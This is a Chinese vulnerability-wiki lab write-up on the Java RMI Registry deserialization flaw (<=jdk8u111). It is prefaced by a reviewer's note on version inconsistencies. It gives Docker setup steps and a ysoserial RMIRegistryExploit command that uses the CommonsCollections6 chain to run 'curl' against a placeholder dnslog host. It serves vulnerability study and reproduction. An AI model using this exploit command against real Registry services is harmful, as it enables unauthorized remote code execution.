

## 核对与使用边界

- 明确更正：文件名“=jdk8u111”与正文“≤jdk8u111”不是同一版本条件；准确 RMI 过滤器/补丁、JDK 构建、反序列化类路径仍须逐项对应。原 CC6 外连只支持当时实验条件，不能以一个版本字符串断言全部链可用。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=JDK8u111，依赖CC3.2.1与可达Registry，未给固定版本

代码与实验材料：与200同CC6外连验证和Docker步骤

来源证据范围：Threekiii/Vulnerability-Wiki版本，来源路径完整

- **适用与权限边界（1）**：文件名和元数据缺版本准确性；依据：文件名=但正文&lt;=；未说明补丁边界及环境出处。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Java RMI Registry 反序列化漏洞 (<=jdk8u111)

## 漏洞描述

Java Remote Method Invocation 用于在 Java 中进行远程调用。RMI 存在远程 bind 的功能（虽然大多数情况不允许远程 bind），在 bind 过程中，伪造 Registry 接收到的序列化数据（实现了 Remote 接口或动态代理了实现了 Remote 接口的对象），使 Registry 在对数据进行反序列化时触发相应的利用链（环境用的是 commons-collections:3.2.1）。

## 环境搭建

执行如下命令编译及启动 RMI Registry 和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip` 是服务器 IP，客户端会根据这个 IP 来连接服务器。

环境启动后，RMI Registry 监听在 1099 端口。

## 漏洞复现

通过 ysoserial 的 exploit 包中的 RMIRegistryExploit 进行攻击

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```



Registry 会返回报错，但命令会正常执行。可以看到 dnslog 成功接收请求。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
